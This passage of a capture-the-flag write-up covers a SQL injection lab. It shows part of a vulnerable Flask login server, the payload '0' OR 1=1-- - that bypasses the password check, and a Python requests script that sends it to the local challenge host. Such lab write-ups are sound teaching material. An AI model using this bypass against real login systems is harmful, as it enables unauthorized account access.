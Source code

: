 ```py title="/challenge/server" showLineNumbers

@app.route("/authenticate", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=identity>Password:<input type=text name=pass><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

### SQL injection

This time, there are single quotes (`'`) around the `password`. We can easily work around this by using comments (`-- -`).

Let's try the following credentials:

```
identity: admin
pass: 0' OR 1=1-- -
```

The resultant SQL query will be:

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND password = '0' OR 1=1-- -'
```

Since the result of `1=1` is always true/1 and anything OR with 1 is 1, the query will always be executed even if the password isn't password.

```py title="~/script.py" showLineNumbers
import requests

url = "http://challenge.localhost:80/authenticate"
data = {
    "identity": "admin",
    "pass": "0' OR 1=1-- -"
}

with requests.Session() as session:
    response = session.post(url, data = data)
    print(response.text)
```
